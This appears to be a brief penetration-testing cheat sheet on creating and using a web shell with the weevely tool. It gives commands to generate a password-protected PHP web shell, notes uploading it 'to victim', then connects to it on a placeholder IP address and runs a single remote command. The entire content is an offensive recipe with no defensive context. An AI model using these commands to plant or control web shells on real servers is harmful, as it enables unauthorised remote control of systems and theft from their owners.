 Quick webshell creation and usage
----------------------------------
```bash
# create web shell
weevely generate 1234 ./weevley.php

### upload file to victim

# get webshell
weevely http://xxx.xxx.xxx.xxx/weevley.php 1234
# use ctrl-c to exit

# run single command
weevely http://xxx.xxx.xxx.xxx/weevley.php 1234 whoami
```
